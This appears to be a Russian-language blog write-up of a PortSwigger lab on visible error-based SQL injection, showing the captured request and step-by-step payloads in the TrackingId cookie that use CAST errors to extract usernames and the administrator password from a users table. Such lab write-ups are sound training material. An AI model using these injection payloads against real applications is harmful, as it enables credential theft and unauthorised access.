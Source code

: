 ```yaml
---
title: "Visible error-based SQL injection"
date: 2025-06-19
tags: [sqli, writeup]
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)


## Scope

```
https://0a75008704f2164580726c3600ac0013.web-security-academy.net/
```

В данной лабе присутствует **Error based  SQL injection** в параметре `Cookie`. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.


## Solution

Так как уязвимость в `Cookie`, то возьму `GET`-запрос с выставленными значениями.

```http
GET / HTTP/2
Host: 0a75008704f2164580726c3600ac0013.web-security-academy.net
Cookie: TrackingId=dUrA4au9zQX6dlb5; session=5UhSQKjfJwXutcIvFyn3RNseuyAD7ybb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a75008704f2164580726c3600ac0013.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Скорее всего уязвимым является параметр `TrackingId`. Подберу обрамелние и пейлоад:

```
dUrA4au9zQX6dlb5'-- -Error
```

Я получил следующую ошибку с описанием:

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/1.png){: height="200" .align-center}

Из текста видно, что для обрамления используются одинарные кавычки. Тогда подберу пейлоад:

```
dUrA4au9zQX6dlb5' or false-- -Ok
dUrA4au9zQX6dlb5' or true-- -Ok
dUrA4au9zQX6dlb5' and false-- -Ok
dUrA4au9zQX6dlb5' and true-- -Ok
```

Обрамление работает, но содержимое не отображается. Попробую специально вызывать ошибку с помощью `CAST`:

```
dUrA4au9zQX6dlb5' and 1=CAST((SELECT 'a') AS int)-- -Error
```

Я получил следующую ошибку:

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/2.png){: height="200" .align-center}

Попробую получить имена пользователей:

```
' and 1=CAST((SELECT username FROM users) AS int)-- -Error
```

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/3.png){: height="200" .align-center}

Из сообщения видно, что в БД лежит больше одного логина, поэтому я использую `LIMIT`, чтобы получать значения по одному:

```
' and 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- -
```

Получил следующий ответ:

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/4.png){: height="200" .align-center}

Получу пароль таким же образом:

```
' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- -
```

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/5.png){: height="200" .align-center}

Пароль получен: `oar4hhxs5cflalzuprmh`. Попробую зайти в аккаунт администратора:

![IMG](/assets/images/IMG_union_sql/IMG_Visible-error-based-SQL-injection/6.png){: height="200" .align-center}

Лаба решена:3
